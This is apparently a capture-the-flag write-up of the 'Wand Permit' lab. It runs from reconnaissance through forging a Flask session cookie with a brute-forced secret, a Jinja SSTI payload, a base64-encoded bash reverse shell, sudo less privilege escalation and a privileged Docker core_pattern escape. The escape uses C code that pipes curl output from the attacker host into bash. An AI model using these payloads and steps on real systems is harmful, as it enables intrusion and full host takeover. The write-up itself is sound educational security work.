# Wand Permit

> You are a big boy magician now, it's time to get your magic wand permit but the wand permit service has closed registration for some weird reason. Can you find a way to get your permit?


# Information Gathering

## Nmap Scan
Nmap scan returned only two ports open, one being `http` and second `postgres` database.
Web server has `robots.txt` file with one disallowed entry `/static/CHANGELOG.txt`
```bash
# Nmap 7.93 scan initiated Sat Dec  3 09:48:56 2022 as: nmap -p80,5432 -sC -sV -A -oA wand_permit 10.129.251.44
Nmap scan report for 10.129.251.44
Host is up (0.037s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Werkzeug/2.2.2 Python/3.8.10
| http-robots.txt: 1 disallowed entry 
|_/static/CHANGELOG.txt
| http-title: Wand Permit Authority | Log-in
|_Requested resource was login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sat, 03 Dec 2022 08:49:13 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Server: is online :)
|     X-Powered-By: Magic
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sat, 03 Dec 2022 08:49:08 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 197
|     Location: login
|     Server: is online :)
|     X-Powered-By: Magic
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="login">login</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sat, 03 Dec 2022 08:49:08 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Server: is online :)
|     X-Powered-By: Magic
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
5432/tcp open  postgresql PostgreSQL DB 9.6.0 or later
| fingerprint-strings: 
|   SMBProgNeg: 
|     SFATAL
|     VFATAL
|     C0A000
|     Munsupported frontend protocol 65363.19778: server supports 3.0 to 3.0
|     Fpostmaster.c
|     L2188
|_    RProcessStartupPacket
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   36.93 ms 10.10.14.1
2   38.12 ms 10.129.251.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec  3 09:50:32 2022 -- 1 IP address (1 host up) scanned in 96.02 seconds
```
## Enumearation

### WebServer
#### robots.txt



```
User-agent: * 
Disallow: /static/CHANGELOG.txt
```
#### CHANGELOG.txt
Changelog leaked two things:
- there could be some hardcoded secrets in application files as stated in `Version 2.4.0`
- added manifest plugin 

```markdown
Version 2.4.0
-------------------------
- Removed hardcoded secrets on core.js, might need more cleaning on other files

Version 2.3.0
------------------------
- Added manifest plugin to webpack for an upcoming feature

Version 2.2.0
------------------------
- Cleaned up unused files

Version 2.1.0
------------------------
- Temporarily disabled registrations to normal users due to issues again

Version 2.0.0
------------------------
- Added special feature that allows only developers to access certain features

Version 1.3.0
------------------------
- Added webpack for static file bundling

Version 1.2.0
------------------------
- Added base45 encoding support for the new Wizard ID's

Version 1.1.0
------------------------
- Fixed issues on registration
```
#### manifest.json
After quick google `manifest plugin webpack` this [link](https://www.npmjs.com/package/webpack-manifest-plugin) appeared as first. Based on that manifest file propably is called `manifest.json` and it is located in `static` direcotry. Full path `/static/manifest.json`

Reading this file revealed another `javascript` files.
- minicssextract.css
- main-bundle.js
- dev-48644bcc829deeffe29e-bundle.js


Content of `main-bundle.js`
```javascript
(()=>{"use strict";function t(e,r){const s=n();return(t=function(t,n){return s[t-=271]})(e,r)}function n(){const t=["88nTNxbi","674502feENOW","2032023SNqBbM","22BoFNoI","submit","520682ZYoYwM","8NCvxNF","351036juKBfo","607930DIkrQc","2UFTray","1335948eXCNaG","loginForm","/login","1304295IBrEeG"];return(n=function(){return t})()}function e(){const n=t,e=document.getElementById(n(274));e.action=n(275),e[n(281)]()}function r(){const t=["registerForm","6634359pNVFml","method","action","1UzWrqh","4251786JMOHtu","/testing/dev/api/v3/register","3379708uVuUSP","3eifQCL","POST","7797979AOoKKf","5986304ePFOpi","336692zuUMXy","submit","3688955HtwrSn"];return(r=function(){return t})()}function s(t,n){const e=r();return(s=function(t,n){return e[t-=199]})(t,n)}function o(){const t=s,n=document.getElementById(t(212));n[t(200)]=t(203),n[t(199)]=t(206),n[t(210)]()}function u(t,n){const e=c();return(u=function(t,n){return e[t-=194]})(t,n)}function c(){const t=["67370NVaJae","176Euyxzh","263842eCWWIF","48zypDZa","3946476BBFrMR","1017fiVBvr","395236JAWcZI","149765hIJPRp","143erIBdq","790092xcFjJE","10655Jtljli","3OkZlct"];return(c=function(){return t})()}function a(){const t=["249907cJcLKv","443991yBytqs","keyup","18638217IUPyOL","6gRcFCw","addEventListener","emailInput","name","1169515suZGLZ","24KlCwin","440075AUCbti","value","change","2091622XzcfjD","onload","innerHTML","Login","click","disabled","files","fileUploadInput","7387264hDtVhe","getElementById"];return(a=function(){return t})()}!function(n,e){const r=t,s=n();for(;;)try{if(369556==parseInt(r(282))/1*(parseInt(r(272))/2)+parseInt(r(278))/3*(-parseInt(r(283))/4)+parseInt(r(276))/5+-parseInt(r(273))/6+-parseInt(r(279))/7+parseInt(r(277))/8*(parseInt(r(284))/9)+parseInt(r(271))/10*(parseInt(r(280))/11))break;s.push(s.shift())}catch(t){s.push(s.shift())}}(n),function(t,n){const e=s,r=t();for(;;)try{if(669711==parseInt(e(201))/1*(parseInt(e(209))/2)+parseInt(e(205))/3*(parseInt(e(204))/4)+-parseInt(e(211))/5+-parseInt(e(202))/6+parseInt(e(207))/7+-parseInt(e(208))/8+parseInt(e(213))/9)break;r.push(r.shift())}catch(t){r.push(r.shift())}}(r),function(t,n){const e=u,r=t();for(;;)try{if(504549==parseInt(e(201))/1+parseInt(e(205))/2*(-parseInt(e(198))/3)+parseInt(e(203))/4+-parseInt(e(197))/5*(-parseInt(e(202))/6)+parseInt(e(194))/7*(-parseInt(e(200))/8)+-parseInt(e(204))/9*(-parseInt(e(199))/10)+parseInt(e(195))/11*(-parseInt(e(196))/12))break;r.push(r.shift())}catch(t){r.push(r.shift())}}(c);const i=p;function p(t,n){const e=a();return(p=function(t,n){return e[t-=241]})(t,n)}!function(t,n){const e=p,r=t();for(;;)try{if(872871==parseInt(e(249))/1+-parseInt(e(252))/2+-parseInt(e(263))/3+-parseInt(e(248))/4*(parseInt(e(247))/5)+-parseInt(e(243))/6*(-parseInt(e(262))/7)+parseInt(e(260))/8+parseInt(e(242))/9)break;r.push(r.shift())}catch(t){r.push(r.shift())}}(a),window[i(253)]=()=>{const t=i,n=document[t(261)](t(259)),r=document[t(261)]("fileUploadButton"),s=document[t(261)](t(245)),u=document[t(261)]("submitButton");s?(!s.value&&(u[t(257)]=!0),u[t(254)]===t(255)?u[t(244)](t(256),e):"Register"===u[t(254)]&&u[t(244)](t(256),o),s[t(244)](t(241),(()=>{const n=t,e=s[n(250)];-1==String(e).search(/^\s*[\w\-\+_]+(\.[\w\-\+_]+)*\@[\w\-\+_]+\.[\w\-\+_]+(\.[\w\-\+_]+)*\s*$/)?u[n(257)]=!0:u[n(257)]=!1}))):n&&(r[t(244)](t(256),(()=>{n[t(256)]()})),n[t(244)](t(251),(()=>{const e=t;r[e(254)]=n[e(258)][0][e(246)]})))}})();
```

From this file string `/testing/dev/api/v3/register` stood out as it should provide registration functionality - that is turned off on "production"  applicaiton.

But this endpoint is protected and only available to developers


Content of `dev-48644bcc829deeffe29e-bundle.js`

```javascript
(()=>{const t=e;function n(){const t=["5306hZYOBb","46144oFYHui","2092674nyhxib","1328703RvoYdl","1809168oMTOCe","getTime","expires=","9561972IksZju","x-debug-key-v3","038663befb1ad868a62035cf5d685adb","cookie","2122473ZOLSGJ","1224815cYPzDr","toUTCString","setTime"];return(n=function(){return t})()}function e(t,r){const s=n();return(e=function(t,n){return s[t-=205]})(t,r)}!function(t,n){const r=e,s=t();for(;;)try{if(903604==-parseInt(r(208))/1+-parseInt(r(207))/2+parseInt(r(216))/3+-parseInt(r(209))/4+parseInt(r(217))/5+-parseInt(r(212))/6+parseInt(r(205))/7*(parseInt(r(206))/8))break;s.push(s.shift())}catch(t){s.push(s.shift())}}(n),function(t,n,r){const s=e,o=new Date;o[s(219)](o[s(210)]()+864e5);let c=s(211)+o[s(218)]();document[s(215)]=t+"="+n+";"+c+";path=/"}(t(213),t(214))})();
```
There is hardcoded value of `x-debug-key-v3` cookie which is `038663befb1ad868a62035cf5d685adb`
This can be reversed by simply pasting whole code in console and it automatically sets proper cookie in browser


After that endpoint `/testing/dev/api/v3/register` can be accessed

Website as logged user



## Account verification
Verification can by bypassed by downloading example ID Card and uploading it again.


## Meetings
This is only accessible for `staff` users.
Judging by `server` header (nmap scan) `Server: Werkzeug/2.2.2 Python/3.8.10` and cookie this is python app, this could by `flask` application as this is quite popular python framework.

### Decoding cookie
For decoding flask cookie `flask-unsign` can be used


As this returned without an error it confirms that is flask cookie.
After decoding `staff` field is present in the cookie. To forge own cookie `secret` value is needed.

### Bruteforce cookie secret
`flask-unsign` can bruteforce signing secrets


### Forge own cookie
With secret found as `sss` now cookie can be forged and used to impersonate `staff` user


With forged cookie meeting page is now accessible


## RCE via Server Side Template Injection
flask application are build on templates. With inproper use of that vulnerability called Server Side Template Injection can be introduced. This allows to execute code on the server.

Here search functionality is vulnerable to SSTI (Server Side Template Injection).
With `email` parameter set for `{{url_for}}` application renedrs `url_for` object.


With email parameter set to `{{url_for.__globals__.__builtins__.__import__('os').popen('ls').read()}}`

Application returns output of `ls` commands and list all files in directory
This payload takes advantage of python classes and special objects like `__builtins__` is set of built-in functions of python language like `import` which is called next as `__import__('os')`. This mean that code now imports `os` module. Next `popen` from os module is called with argument `ls` shell command to execute. Popen do not return output from executed command directly `read()` function needs to be called to get `stdout`

### Reverse Shell
Used payload for reversed shell is 
First encode command that send shell connection to `base64`
```
echo -n "bash  -i >&  /dev/tcp/10.10.14.22/1337 0>&1  " | base64
```
Next in popen it needs to be decoded `base64 -d` and executed in `bash`
```
{{url_for.__globals__.__builtins__.__import__('os').popen('echo+YmFzaCAgLWkgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjIyLzEzMzcgMD4mMSAg|base64+-d|bash').read()}} 
```
Make sure to do not have any special characters in base64 like `+` or `=`
And connection is recieved as user `sparkles`

## Privilege Escalation
User sparkles can use sudo with `less` binary without a password.

Less is one of [GTFObins](https://gtfobins.github.io/gtfobins/less/) that allows privelege escalation when executed as root which sudo does.

## Docker Escape
As this is very limited container, without `curl`, `wget`, `nc` and such file transport is quite cumbersome.
To run [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on local machine `nc` command was executed as `nc -lnvp 1337 < linpeas.sh` and on the remote server (victim) `bash  -i >&  /dev/tcp/10.10.14.22/1338 0>&1 > linpeas.sh`
This allowed to run script on remote server from my local machine.

### linpeas.sh

Linpeas is enumeartion script that make this process much simpler and it returned with information  that this container runs in `privileged mode` which allows multiple ways in escaping from container to the host.

linpeas enumerates possible ways to brakeout here one of the possibility is `core_patter` breakout


### Escaping from docker
Docker containers are little virtual machines that share kernel with host system that means some special files from `proc` are shared. One of the interesting file is `/proc/sys/kernel/core_pattern` which defines what to do after program crash (core dumps) if this file is starting with pipe `|` there is 128bytes of space to execute program that will run as `root` user. But it needs to be program on host system. This isn't a problem really because container is "leaching" from host so with `mount` command. Exact path can be extracted for root filesystem which in this case is `/var/lib/docker/overlay2/8bcfb41c623919126e3c477270b89d61ca7848cb8ae498ab341a2ded1828750d/diff/`

So in theory if content of `/proc/sys/kernel/core_pattern` is `|/var/lib/docker/overlay2/8bcfb41c623919126e3c477270b89d61ca7848cb8ae498ab341a2ded1828750d/diff/poc2` after core dump host system should execute `poc2` binary and this is inside docker container so totally user controlable!

#### Binary that crash
Taking all wonderful function of `C` language this program writes 100 bytes to 1 byte buffer
```C
int main(void) {
	char buf[1];
	for (int i = 0; i < 100; i++) {
	buf[i] = 1;
	}
	return 0;
}
```

#### Binary that executes the CODE
```C
#include <stdio.h>

int main(void)
{
    system("curl 10.10.14.22/shell.sh | bash");
    return 0;
}
```
Both of binaries have to be compiled with `gcc file -o output_file`

#### Reverse Shell
Content of `shell.sh` which is downloaded from local machine
```bash
#!/bin/bash
bash  -i >&  /dev/tcp/10.10.14.22/1337 0>&1
```

### Executing the attack
Recap:
 - `/proc/sys/kernel/core_pattern` should contain `|/var/lib/docker/overlay2/8bcfb41c623919126e3c477270b89d61ca7848cb8ae498ab341a2ded1828750d/diff/poc2` which is path to binary that download `shell.sh` on the host and execute it.
- `poc2` binary should be in root of the filesystem `/poc2`
- any program that crash on screen /tmp/crash
- Any webserver running hosting `shell.sh`
- listener on port 1337 to catch reverse shell


ESCAPED!
If docker would ran  without `--privileged` flag it couldn't be done.
All credit for this escape [here](https://pwning.systems/posts/escaping-containers-for-fun/) great article that allowed me to pwn this challenge!
